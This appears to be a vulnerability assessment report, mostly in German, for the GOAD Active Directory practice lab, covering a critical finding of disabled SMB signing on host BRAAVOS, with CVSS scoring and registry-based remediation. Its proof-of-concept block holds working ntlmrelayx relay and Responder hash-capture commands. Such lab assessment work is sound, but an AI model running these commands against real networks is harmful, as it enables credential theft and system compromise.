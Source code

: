 # GOAD Lab - Comprehensive Vulnerability Assessment

## Executive Summary

Diese detaillierte Schwachstellenanalyse basiert auf allen gesammelten Reconnaissance-Daten, Scan-Ergebnissen und erfolgreichen Exploits im GOAD Lab (192.168.20.0/24). Die Bewertung folgt dem CVSS 3.1-Standard und priorisiert kritische Sicherheitslücken für sofortige Remediation.

---

## 1. Critical Vulnerabilities (CVSS 9.0-10.0)

### 1.1 SMB Signing Completely Disabled - BRAAVOS (192.168.20.23)

**CVSS Score:** 9.1 (Critical)
**Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

**Technical Details:**
```
Host: braavos.essos.local (192.168.20.23)
Service: SMB (Port 445)
Configuration: message_signing: disabled (dangerous, but default)
Guest Access: account_used: guest
```

**Exploitation:**
- SMB Relay attacks via ntlmrelayx
- NTLM hash capture via Responder
- Lateral movement ohne Authentifizierung
- Credential harvesting from network traffic

**Proof of Concept:**
```bash
# SMB Relay Attack
echo "192.168.20.23" > targets.txt
ntlmrelayx.py -tf targets.txt -smb2support -c "powershell.exe -enc <payload>"

# Responder für Hash Capture
responder -I eth0 -rdwv
```

**Impact:**
- Complete system compromise
- Domain credential exposure
- Lateral movement to other systems
- Data exfiltration capabilities

**Remediation:**
```powershell
# Sofortige SMB-Härtung via Group Policy
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters" -Name "RequireSecuritySignature" -Value 1
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\lanmanworkstation\parameters" -Name "RequireSecuritySignature" -Value 1
```
